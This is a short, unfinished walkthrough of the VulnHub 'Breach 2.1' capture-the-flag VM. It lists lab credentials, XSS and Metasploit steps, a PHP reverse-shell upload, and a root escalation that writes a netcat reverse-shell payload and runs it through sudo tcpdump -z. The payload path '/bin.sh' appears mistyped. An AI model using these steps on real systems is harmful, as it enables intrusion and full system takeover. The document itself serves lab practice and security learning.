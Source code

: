 \####################

\# WORK IN PROGRESS #

\####################

# Breach 2.1

## Info
URL: (https://www.vulnhub.com/entry/breach-21,159/)[https://www.vulnhub.com/entry/breach-21,159/]

Type: Vulerable VM 

Goal: Boot2Root

## Walkthrough
 - Connect to SSH.
  - SSH running on non standard port.
  - Login to SSH using peter:inthesource, creds hinted at in SSH banner.
  - Website is now exposed on port 80.
  
 - Persistent XSS on members page.
  - XSS Bot is checking the members page.
  - Use Apache2 server and XSS redirect to determine bot browser version. (Firefox 15.0)
  - Use "FIREFOX 5.0 - 15.0.1 __EXPOSEDPROPS__ XCS CODE EXECUTION" metasploit exploit to get a shell as the user 'peter'.
  
 - Internal service running on port 2323.
  - Gives coords to Houston, Texas.
  - Login with milton:Houston
  - Riddle: Who's stapler is it?, answer with 'mine'
  - Returns shell with user 'milton'
  - Website is now exposed on port 8888.
  
- Oscommerce website running as root on port 8888.
  - Login to MySQL with creds found in website files at /var/www/html/blog/config.php
  - Crack administrator password (admin:admin)
  - Login to admin panel at /oscommerce/admin/index.php using creds from db.
  - Use shell to find writable subdirectories to upload php reverse shell. (find /var/www/html2/oscommerce/ -type f -writable)
  - Use fileupload to upload php reverse shell and execute.
  - Returns shell with user 'blumbergh'
  
- Priv esc to root
  - sudo -l tells use that we can run tcpdump as root with nopasswd.
  - Create payload, echo "nc [ID] [PORT] -e /bin.sh" > /tmp/payload
  - chmod +x /tmp/payload
  - Run tcpdump with -z flag to execute file on capture. tcpdump -l -i eth0 -w /dev/null -W1 -G1 -z /tmp/payload
  
- Root shell
  - run python /root/.flag.py
  - Done!
  
## Writeup 

